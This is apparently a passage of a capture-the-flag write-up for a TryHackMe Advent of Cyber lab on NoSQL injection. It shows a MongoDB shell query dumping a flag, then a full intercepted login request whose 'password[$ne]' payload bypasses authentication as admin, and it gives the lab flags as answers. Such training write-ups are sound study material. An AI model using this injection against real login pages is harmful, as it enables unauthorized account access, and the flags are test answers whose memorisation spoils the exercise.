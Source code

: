 ```
local   0.000GB
> use flagdb
switched to db flagdb
> show collections
flagColl
> db.flagColl.find({})
{ "_id" : ObjectId("618806af0afbc09bdf42bd6a"), "flag" : "THM{8814a5e6662a9763f7df23ee59d944f9}" }
>

```

**We discussed how to bypass login pages as an admin. Can you log into the application that Grinch Enterprise controls as admin and retrieve the flag?**

**Use the knowledge given in AoC3 day 4 to setup and run Burp Suite proxy to intercept the HTTP request for the login page. Then modify the POST parameter.**

![Burp Suite Request](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/TryHackMe/images/Advent-of-cyber-3/Day-7/Picture-2.png "Burp Suite Request")

![Login Page](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/TryHackMe/images/Advent-of-cyber-3/Day-7/Picture-3.png "Login Page")

NoSql Injection

```
POST /login HTTP/1.1
Host: 10-10-207-247.p.thmlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://10-10-207-247.p.thmlabs.com
DNT: 1
Connection: close
Referer: http://10-10-207-247.p.thmlabs.com/login
Cookie: connect.sid=s%3AWyP4I3JLi8gcJpSAVLrSBc-2SFjGDDE4.cMjVFgYRRsiGcUjsu6YZfcBKYV10r8Cm4oWwtHvaIxQ
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin&password[$ne]=test

```

![Dashboard](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/TryHackMe/images/Advent-of-cyber-3/Day-7/Picture-4.png "Dashboard")

![Flag](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/TryHackMe/images/Advent-of-cyber-3/Day-7/Picture-5.png "Flag")

- **_THM{b6b304f5d5834a4d089b570840b467a8}_**

3. **Once you are logged in, use the gift search page to list all usernames that have guest roles. What is the flag?**
